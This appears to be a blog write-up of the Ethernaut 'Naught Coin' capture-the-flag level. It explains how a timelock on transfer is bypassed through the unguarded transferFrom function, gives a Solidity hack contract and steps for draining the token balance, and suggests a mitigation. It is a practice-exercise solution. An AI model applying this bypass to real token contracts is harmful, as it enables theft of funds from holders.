 ```yaml
---
title: Level 15 - Naught Coin
slug: level-15
published: 05-23-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut15.svg
---
```


## Objectives

1. Empty all of your funds of an ERC20 token.

## Vulnerabilities

### Function modifier applied to transfer only

This contract adds a timelock on the `transfer` function preventing you to transfer tokens within 10 years
of the contract creation. On the other hand, the `transferFrom` function does not have the timelock implemented.

## Exploit

1. Write and deploy this simple hack contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./NaughtCoin.sol";

contract NaughtCoinHack {

    NaughtCoin target;

    constructor(address _targetAddress) {
        target = NaughtCoin(_targetAddress);
    }

    function hack() external {
        bool success = target.transferFrom(0xcC5065Fa8f55F6929E1fA52E1ee6911F12C54a7F, address(this), 1000000000000000000000000);
        require(success, "Transaction failed!");
    }
}
```

2. Approve your total balance as allowance for the above contract's address. (I used the Remix interface).

3. Call the `hack` function which will transfer out all of your funds.

## Suggested mitigation

1. Override the `transferFrom` function with the timelock modifier.

## Further reading

- Open Zeppelin's ERC20 implementation <ExternalLink href={"https://github.com/OpenZeppelin/openzeppelin-contracts/blob/9b3710465583284b8c4c5d2245749246bb2e0094/contracts/token/ERC20/ERC20.sol"} />

